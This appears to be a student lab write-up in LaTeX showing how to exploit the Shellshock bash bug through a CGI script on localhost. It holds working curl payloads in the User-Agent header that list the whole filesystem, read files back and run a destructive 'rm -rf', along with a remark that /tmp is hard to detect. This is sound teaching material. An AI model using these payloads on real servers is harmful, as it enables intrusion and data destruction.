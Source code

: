 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{CGI Preparation}
To perform the shellshock attack, a dynamic web file is first created so that the CGI program can be executed to call \texttt{bash} later. To do so, we create a file in the \texttt{/usr/lib/cgi-bin} directory (default) with the following source code and name it as \texttt{myprog.cgi}.
\begin{verbatim}
#!/bin/bash

echo "Content_type: text/plain"
echo
echo
echo "Hello World"
\end{verbatim}
To execute the program, we can
\begin{enumerate}
	\item Use a web browser and type \texttt{http://localhost/cgi-bin/myprog.cgi} into the address bar; or
	\item Open terminal and use the \\command \texttt{curl http://localhost/cgi-bin/myprog.cgi}
\end{enumerate}
Execution of the program will print out a ``Hello World'' as it was written into the file.
\newpage
\subsection{Exploiting \texttt{CGI} Vulnerability}
To exploit the Shellshock vulnerability, we make use of the User-Agent field. Due to the way \texttt{bash} executes trailing code, the malicious code to be executed will be appended to the back, before ending with the URL of the page. In this instance, we can print out all the files and the directories on the remote system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/ls -l -R /
> /tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
\texttt{/tmp} is used to store the output as it is world-writable, not easily detectable and cleaned after every reboot. If we would like to print the contents of the file that was just written, we can perform the same attack and change the command to be used.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/cat
/tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
If an attacker wants to do cripple a system, a simple command using \texttt{rm -rf} will permanently delete any file that is accessible by the Apache user account on the system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type:text/plain; /bin/rm -rf"
http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
The vulnerability in the \texttt{bash} code is reflected in Figure 2. The reflected code preserves backwards compatibility by allowing functions to be imported, but can now be exploited to execute malicious code.
\begin{figure}[H]
	\centering
	\texttt{[image: oldbash]}
	\caption{Code Vulnerability}
	\label{fig:oldbash}
\end{figure}
\end{document}
